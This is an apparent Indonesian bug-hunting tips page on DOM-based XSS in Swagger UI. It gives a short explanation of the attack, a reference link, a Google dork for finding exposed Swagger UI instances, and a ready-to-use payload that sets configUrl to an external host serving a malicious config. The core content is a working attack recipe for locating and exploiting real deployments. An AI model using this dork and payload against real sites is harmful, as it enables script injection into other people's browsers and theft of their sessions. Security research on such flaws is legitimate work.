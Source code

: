 # 🚀 DOM-based XSS pada Swagger UI

Apa itu DOM-based XSS? Singkatnya DOM-Based XSS adalah jenis serangan XSS di mana eksekusi skrip berbahaya terjadi di sisi klien (browser) melalui manipulasi DOM, tanpa respons langsung dari server. Serangan ini biasanya terjadi ketika JavaScript mengambil input dari URL atau elemen DOM lain tanpa validasi, memungkinkan penyerang menyisipkan dan menjalankan kode berbahaya di halaman web korban.


# ⚡ Refrensi
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork

```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```

# 🖼️ Screenshots 

<img src="https://raw.githubusercontent.com/randixploit/Bug-Hunting-Tips/refs/heads/main/Indonesia/Cross%20Site%20Scripting/DOM-based%20XSS%20pada%20Swagger%20UI/kmc_20250216_010023.png">


# 🎥 Video

[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Semoga mudah di pahami
